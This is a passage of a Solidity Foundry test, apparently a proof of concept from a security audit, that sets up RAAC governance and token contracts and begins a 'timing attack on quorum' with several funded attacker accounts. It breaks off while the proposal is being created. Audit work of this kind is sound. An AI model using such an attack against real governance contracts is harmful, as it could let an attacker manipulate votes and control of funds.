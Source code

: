 ```solidity 
        // Mint enough tokens for all test cases
        raacToken.mint(address(this), 10_000_000e18); // 10M tokens for distribution
        
        veToken = new veRAACToken(address(raacToken));
        
        address[] memory proposers = new address[](1);
        address[] memory executors = new address[](1);
        proposers[0] = admin;
        executors[0] = admin;
        
        timelock = new TimelockController(2 days, proposers, executors, admin);
        governance = new Governance(address(veToken), address(timelock));
​
        timelock.grantRole(timelock.PROPOSER_ROLE(), address(governance));
        timelock.grantRole(timelock.EXECUTOR_ROLE(), address(governance));
​
        // Whitelist addresses to avoid tax
        raacToken.manageWhitelist(address(this), true);
        raacToken.manageWhitelist(address(veToken), true);
​
        // Create multiple attacker accounts
        for(uint i = 0; i < NUM_ACCOUNTS; i++) {
            attackerAccounts.push(makeAddr(string.concat("attacker", vm.toString(i))));
            // Whitelist and give tokens
            raacToken.manageWhitelist(attackerAccounts[i], true);
            raacToken.transfer(attackerAccounts[i], 200_000e18 * (i + 1));
        }
​
        // Give extra tokens to attacker0 for the proposal
        raacToken.transfer(attackerAccounts[0], 500_000e18);
​
        // Label accounts for better trace readability
        vm.label(attackerAccounts[1], "legitimateUser");
        vm.label(attackerAccounts[0], "attacker");
    }
​
  
function testTimingAttackOnQuorum() public {
        // Setup multiple attackers with significant voting power
        for(uint i = 0; i < NUM_ACCOUNTS; i++) {
            vm.startPrank(attackerAccounts[i]);
            raacToken.approve(address(veToken), 200_000e18);
            veToken.lock(200_000e18, 365 days);
            vm.stopPrank();
        }
​
        // Give attacker0 extra voting power to meet proposal threshold
        vm.startPrank(attackerAccounts[0]);
        raacToken.approve(address(veToken), 400_000e18); // Additional 400k tokens
        veToken.lock(400_000e18, 365 days);             // This will give +100k voting power
        vm.stopPrank();
​
        // Create proposal
        vm.startPrank(attackerAccounts[0]);
        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        bytes[] memory calldatas = new bytes[](1);
        
        uint256 proposalId = governance.propose(
            targets,
            values,
            calldatas,
            "Timing Attack Proposal",
```